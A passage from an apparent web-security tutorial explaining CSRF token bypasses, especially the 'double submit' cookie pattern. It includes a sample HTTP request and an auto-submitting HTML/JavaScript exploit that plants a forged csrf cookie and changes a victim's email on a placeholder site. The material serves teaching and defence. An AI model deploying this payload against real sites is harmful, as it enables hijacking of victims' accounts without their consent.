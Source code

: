 3. **Craft a Malicious CSRF Request:**
   - The attacker creates a malicious request (e.g., changing the victim's email address) and includes their valid CSRF token.
   - When the victim's browser sends the request, it includes:
     - The attacker's `csrfKey` cookie (set earlier).
     - The attacker's valid CSRF token (included in the malicious request).
   
4. **Bypass CSRF Protection:**
   - The server validates the CSRF token against the `csrfKey` cookie.
   - Since both the token and cookie belong to the attacker, the validation passes.
   - The server processes the request as if it came from the victim, even though the victim did not intend to perform the action.

---

### 5. **CSRF Token is Simply Duplicated in a Cookie**

In a variation of the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued but instead duplicate each token within a cookie and a request parameter. When the subsequent request is validated, the application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie. This is sometimes called the "double submit" defense against CSRF.

#### Example Request:
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

#### Why Is This Vulnerable?
The attacker can again perform a CSRF attack if the website contains any cookie-setting functionality. Here, the attacker doesn’t need to obtain a valid token of their own. They simply invent a token (perhaps in the required format, if that is being checked), leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

#### Example Exploit:
```html
<script>
    document.cookie = "csrf=abcd1234";
</script>
<form action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="csrf" value="abcd1234">
    <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
<script>
    document.forms[0].submit();
</script>
```

---